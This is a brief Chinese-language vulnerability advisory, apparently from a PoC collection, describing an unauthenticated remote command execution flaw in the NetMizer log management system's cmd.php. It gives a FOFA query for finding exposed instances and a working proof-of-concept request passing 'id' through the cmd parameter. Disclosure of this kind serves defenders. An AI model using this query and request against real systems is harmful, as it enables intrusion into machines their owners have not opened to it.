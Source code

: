 # NetMizer 日志管理系统 cmd.php 远程命令执行漏洞

## 漏洞描述

NetMizer 日志管理系统 cmd.php中存在远程命令执行漏洞，攻击者通过传入 cmd参数即可命令执行

## 漏洞影响

```
NetMizer 日志管理系统
```

## FOFA

```
title="NetMizer 日志管理系统"
```

## 漏洞复现

登录页面

![image-20220519175506872](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191755197.png)

验证POC

```
/data/manage/cmd.php?cmd=id
```

![image-20220519175604237](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191756275.png)